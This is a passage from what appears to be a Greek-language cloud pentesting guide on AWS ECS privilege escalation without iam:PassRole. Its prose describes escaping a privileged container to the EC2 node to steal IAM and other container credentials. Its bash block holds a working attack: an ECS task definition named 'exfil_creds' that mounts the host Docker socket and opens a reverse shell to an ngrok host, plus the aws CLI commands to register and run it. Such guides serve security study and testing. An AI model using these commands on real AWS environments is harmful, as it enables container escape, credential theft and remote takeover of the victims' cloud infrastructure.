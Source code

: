 ### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

Αυτό το σενάριο είναι παρόμοιο με τα προηγούμενα αλλά **χωρίς** την άδεια **`iam:PassRole`**.\
Αυτό είναι ακόμα ενδιαφέρον γιατί αν μπορείτε να εκτελέσετε ένα αυθαίρετο κοντέινερ, ακόμα και αν είναι χωρίς ρόλο, θα μπορούσατε **να εκτελέσετε ένα προνομιακό κοντέινερ για να διαφύγετε** στο κόμβο και **να κλέψετε τον ρόλο IAM EC2** και τους **άλλους ρόλους κοντέινερ ECS** που εκτελούνται στον κόμβο.\
Θα μπορούσατε ακόμα **να αναγκάσετε άλλες εργασίες να εκτελούνται μέσα στην EC2 instance** που έχετε παραβιάσει για να κλέψετε τα διαπιστευτήριά τους (όπως συζητήθηκε στην [**Ενότητα Privesc προς κόμβο**](aws-ecs-privesc.md#privesc-to-node)).

{% hint style="warning" %}
Αυτή η επίθεση είναι δυνατή μόνο αν ο **ECS cluster χρησιμοποιεί EC2** instances και όχι Fargate.
{% endhint %}
```bash
printf '[
{
"name":"exfil_creds",
"image":"python:latest",
"entryPoint":["sh", "-c"],
"command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
"mountPoints": [
{
"readOnly": false,
"containerPath": "/var/run/docker.sock",
"sourceVolume": "docker-socket"
}
]
}
]' > /tmp/task.json

printf '[
{
"name": "docker-socket",
"host": {
"sourcePath": "/var/run/docker.sock"
}
}
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
--cpu 256 --memory 512 \
--requires-compatibilities '["EC2"]' \
--container-definitions file:///tmp/task.json \
--volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
--launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```
### `ecs:ExecuteCommand`, `ecs:DescribeTasks,`**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**
